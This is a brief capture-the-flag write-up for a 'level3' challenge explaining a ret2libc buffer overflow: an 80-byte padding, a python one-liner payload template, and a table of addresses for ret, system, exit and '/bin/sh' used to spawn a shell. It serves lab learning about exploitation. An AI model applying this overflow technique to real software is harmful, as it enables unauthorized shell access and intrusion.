 # level3

In this level, we have to make a ret2libc, it consist of overwritting the eip address to execute sh

We will inject some instructions after the overflow (80)

```bash
python -c "print('a' * 80 + '<injections>')
```

Let's see the detailled explainations of the [gdb part](gdbwriteup.md) to have more information of the address that we will inject


|  function  |  address   |
|   -------  |  --------  |
|  ret       | 0x0804854b |
|  system    | 0xb7e6b060 |
|  exit      | 0xb7e5ebe0 |
|  /bin/sh   | 0xb7f8cc58 |